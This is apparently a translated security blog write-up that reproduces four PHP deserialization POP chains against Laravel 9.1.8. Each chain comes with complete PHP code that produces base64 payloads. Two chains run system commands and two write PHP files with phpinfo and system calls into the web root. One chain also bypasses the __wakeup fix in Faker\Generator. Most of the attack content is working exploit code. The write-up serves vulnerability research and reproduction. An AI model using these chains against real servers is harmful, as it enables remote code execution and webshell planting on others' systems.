






# Laravel 9.1.8 Deserialization Vulnerability

Author: H3rmesk1t

Data: 2022.05.17

# Preface
When I was pushing, I brushed the deserialized RCE chain of `Laravel 9.1.8` and reproduced it with the vulnerability description.

#Environmental construction
Just download the source code of the official website `Laravel 9.1.8` and then download the `composer install`, add an entry, and modify `routes\web.php` as follows:

```php
<?php

use Illuminate\Support\Facades\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function (\Illuminate\Http\Request $request) {

    $vuln = base64_decode($request->input("vuln"));
    unserialize($ser);
    return "H3rmesk1t";
});
```

Or directly use the packaged vulnerability environment: [Download address](https://share.weiyun.com/UZyGDHAC).

# Laravel 9.1.8 POP Chain1
## Vulnerability Description

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in __destruct in Illuminate\Broadcasting\PendingBroadcast.php and dispatch($command) in Illuminate\Bus\QueueingDispatcher.php.
```

<div align=center></div>

## Vulnerability Analysis

According to the description of vulnerability information, follow up on the `__destruct` method in `src/Illuminate/Broadcasting/PendingBroadcast.php`. You can see that the `$this->events` and `$this->events` here are both controllable. Find available `dispatch` methods.

<div align=center></div>

<div align=center></div>

Follow up here the `dispatch` method in `src/Illuminate/Bus/Dispatcher.php`, and the `$command` and `$this->queueResolver` are both controllable.

<div align=center></div>

Following up on the `dispatchToQueue` method, `$command` and `$this->queueResolver` are both controllable. It is not difficult to see that the `call_user_func` method in this method can be used to utilize command execution.

<div align=center></div>

What needs to be solved now is the command execution statement. Note that the code in the above figure is `$connection = $command->connection ?? null;`, here you can control `$connection` by variables in the class in `src/Illuminate/Broadcasting/BroadcastEvent.php` to achieve the purpose of command execution.

## POP Chain

```php
<?php

namespace Illuminate\Contracts\Queue{

    interface ShouldQueue {}
}

namespace Illuminate\Bus{

    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct() {}
    }

    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct() {
            $this->event = new BroadcastEvent();
            $this->event->connection = "calc";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}

namespace {
    $pop = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($pop));
}
```

<div align=center></div>

# Laravel 9.1.8 POP Chain2
## Vulnerability Description

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in __destruct in GuzzleHttp\Cookie\FileCookieJar.php.
```

<div align=center></div>

## Vulnerability Analysis

According to the description of vulnerability information, follow up on the `__destruct` method in `src/Cookie/FileCookieJar.php`. You can see that the `$this->save` method will be called. In the `save` method, there is the `file_put_contents` method for file writing.

<div align=center></div>

Then follow the `shouldPersist` method in `src/Cookie/CookieJar.php` to see how the written content should be constructed.

<div align=center></div>

Find the corresponding available `getExpires` methods and `getDiscard` methods, follow up `src/Cookie/SetCookie.php`, `$data` controllable, and write to the file contents.

<div align=center></div>

## POP Chain

```php
<?php

namespace GuzzleHttp\Cookie{
    
    class SetCookie {
        private static $defaults = [
            'Name' => null,
            'Value' => null,
            'Domain' => null,
            'Path'
=> '/',
            'Max-Age' => null,
            'Expires' => null,
            'Secure' => false,
            'Discard' => false,
            'HttpOnly' => false
        ];
        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    echo base64_encode(serialize($pop));
}
```

<div align=center></div>

<div align=center></div>

# Laravel 9.1.8 POP Chain3
## Vulnerability Description

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in (1) __destruct in Illuminate\Broadcasting\PendingBroadcast.php .(2) __call in Faker\Generator.php . This poc bypasses __wakeup in Faker\Generator.php : https://inhann.top/2022/05/17/bypass_wakeup/
```

## Vulnerability Analysis

According to the description of vulnerability information, this chain is mainly `ByPass`` `__wakeup` method in `src/Faker/Generator.php`.

Let's take a look at the idea of ​​bypassing the `inhann` master mentioned. The fix for the previous deserialization problem in `src/Faker/Generator.php` is to add a `__wakeup` method to always make the value of `$this->formatters` `null array`.

<div align=center></div>

Let’s take a look at the following `demo`:

```php
<?php
class Vuln {
    public $demo1;
    public $demo2;

    public function __destruct() {
        $this->demo1 = "h3rmesk1t";

        var_dump($this->demo2);
    }

    public function __wakeup() {
        $this->demo2 = 'd1no';
    }
}

$ser = 'O:4:"Vuln":2:{s:5:"demo1";N;s:5:"demo2";R:2;}';
$unser = unserialize($ser);
var_dump($unser->demo2);
?>
```

<div align=center></div>

You can see that the serialized data `s:5:"demo2";R:2;` makes `$this->demo2` and `$this->demo1` point to the same value, that is, `$this->demo2` is modified, and `$this->demo1` is also modified accordingly.

Therefore, according to the idea in `demo` above, you only need to find one property of `$arg` of an object `$demo` and `$this->formatters` in `src/Faker/Generator.php` point to the same value. After the `__wakeup` method of `src/Faker/Generator.php` ends, before the `__destruct` method of the constructed deserialization chain is run, the `$demo` value is no longer `null array`. It should be noted that the assignment of `$demo` here needs to be completely controllable.

For the bypass idea mentioned above, we need to find some suitable `__wakeup` methods or `__destruct` methods, and it is best to have similar codes as follows:

```php
$this->demo1 = $this->demo2;

$this->demo1[$this->demo2] = $this->demo3;
```

For example, the `__wakeup` method in `Symfony\Component\Mime\Part\SMimePart.php` has a `$headers` attribute inherited from its parent class `AbstractPart`, and the `__wakeup` method uses reflection to assign a value to `$headers`.

<div align=center></div>


```php
namespace Symfony\Component\Mime\Part;
use Symfony\Component\Mime\Header\Headers;
class SMimePart extends AbstractPart {

    public function __wakeup(): void {
        $r = new \ReflectionProperty(AbstractPart::class, 'headers');
        $r->setAccessible(true);
        $r->setValue($this, $this->_headers);
        unset($this->_headers);
    }
}

namespace Symfony\Component\Mime\Header;
class UnstructedHeader extends AbstractHeader {
    
    private $value;
    public function setValue(string $value) {
        $this->value = $value;
    }
}
```

According to this bypass idea, you can bypass the `__wakeup` method in `src/Faker/Generator.php`.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        public function __construct() {
            $this->event = "calc";
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part {
    abstr
act class AbstractPart {
        private $headers = null;
    }
    
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["dispatch"=>"system"];
            $this->h3rmesk1t = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center></div>


# Laravel 9.1.8 POP Chain4
## Vulnerability Description

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in (1) __destruct in Illuminate\Routing\PendingResourceRegistration.php .(2) register in Illuminate\Routing\PendingResourceRegistration.php.(3) __call in Faker\Generator.php . This poc bypasses __wakeup in Faker\Generator.php : https://inhann.top/2022/05/17/bypass_wakeup/
```

## Vulnerability Analysis

According to the description of vulnerability information, the chain is still `ByPass``__wakeup` method in `src/Faker/Generator.php`. The vulnerability analysis logic is as described above.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "register";
            $this->formatters = 9999;
        }

    }
}

namespace Illuminate\Routing {
    class PendingResourceRegistration {
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options = [];
        protected $registered = false;
        function __construct() {
            $this->registrar = new \Faker\Generator();
            $this->name = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->controller = "<?php phpinfo();system('calc');?>";
            $this->options = 8;
        }

    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart {
        private $headers = null;
    }
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["register"=>"file_put_contents"];
            $this->h3rmesk1t = new \Illuminate\Routing\PendingResourceRegistration();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center></div>

<div align=center></div>


# refer to
 - [A new way to bypass __wakeup() and build POP chain](https://inhann.top/2022/05/17/bypass_wakeup/)
 - [PHP Internals Book SERIALIZATION](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html)